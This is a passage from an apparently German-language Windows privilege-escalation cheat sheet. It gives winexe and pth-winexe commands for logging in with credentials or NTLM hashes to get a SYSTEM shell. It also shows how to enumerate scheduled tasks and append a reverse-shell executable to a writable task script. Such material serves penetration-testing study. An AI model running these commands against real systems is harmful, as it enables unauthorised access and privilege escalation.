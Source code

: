 ```bash
winexe -U 'USER%PASS' --system //WinIP cmd.exe
```

#### Pass The Hash

Mit den gefundenen Hashes ist ebenfalls ein direkter Login möglich.

```bash
pth-winexe -U 'admin%LM-Hash:NTLM-Hash' //WIN-IP cmd.exe
```

![image-20200724151231459](https://user-images.githubusercontent.com/33549572/88439567-d9aa4c00-ce0b-11ea-8fa8-900bfa50be42.png)

Für System Shell:

```
pth-winexe --system -U 'admin%LM-Hash:NTLM-Hash' //WIN-IP cmd.exe
```

## Scheduled Tasks

Scheduled Tasks werden teilweise von Administratoren im Kontext von SYSTEM ausgeführt. Allerdings kann ein low privileged User primär nur seine eigenen Scheduled Tasks sehen:

```bash
#CMD
schtasks /query /fo LIST /v
#Powershell
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

Daher werden solche Informationen eher aus Scripts/Log-Files extrahiert..

Beispiel für Scheduled Task:

```bash
#Script anzeigen lassen
type <Filename>
#Prüfen, ob man File beschreiben kann
accesschk.exe /accepteule -quv <Benutzername> <FileName>
echo C:\PathToShell\reverse.exe >> <FileName>
#Warten, bis Script ausgeführt wird..
```

<img src="https://user-images.githubusercontent.com/33549572/88439578-dfa02d00-ce0b-11ea-8fbf-232cd6200090.png" alt="image-20200724165055332" style="zoom:80%;" />



## Insecure GUI Apps

In (älteren) Windows Versionen konnten Benutzer berechtigt werden, bestimmte GUI Apps als Admin auszuführen. Aus diesen gibt es Möglichkeiten, eine Konsole (mit elevated Privileges) zu spawnen.

```bash
#Kontext der Applikation bestimmen
tasklist /V | finstr mspaint.exe
```
